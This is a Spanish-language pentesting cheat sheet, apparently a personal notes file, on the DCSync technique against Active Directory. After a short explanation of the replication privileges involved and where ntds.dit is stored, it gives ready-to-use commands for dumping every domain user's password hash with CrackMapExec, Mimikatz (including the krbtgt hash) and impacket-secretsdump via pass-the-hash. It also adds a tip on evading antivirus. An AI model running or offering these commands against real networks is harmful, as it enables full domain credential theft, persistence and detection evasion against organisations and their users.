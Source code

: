 # DCSync

Tags: #AD #DCSync #Persistencia #Windows 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ 'systemroot\NTDS\ntds.dit'
❯ 'systemroot\System32\ntds.dit'
    
Y la ruta del SYSTEM en:

❯ 'C:\Windows\System32\SYSTEM'

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

```bash 
# Estos privilegios los tienen los usuarios 'Domain Admin' 

1. DS-Replication-Get-Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes In Filtered Set 
```

## Utilizando CrackMapExec

```powershell
# Comando para usuarios con altos privilegios 

❯ ./cme smb 3.14.245.175 -u "admin" -p "Password@1" -d "domain1.corp" --ntds   # Nos muestra loas hashes de los usuarios, por lo que se puede hacer 'Pass-The-Hash'
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe 
	# lsadump::dcsync /domain:domain1.corp /user:krbtgt    # Obtener el hash NTLM
```

```powershell
# Para exfiltrar todos los usuarios del dominio:

❯ .\mimikatz.exe
	# lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump -debug -dc-ip <IP> admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03 
	
	# debug = Obtener mas info 
	# dc-ip = Dirección IP del DC
	# upn 'UserPrincipalName' = Nombre del usuario y DC
	# hashes = Hash del usuario 'NTLM'

Nota: Es mejor hacer un 'Pass-The-Hash' con el 'aes256' que con el 'rc4' ya que los AV los detectan más fácil 
```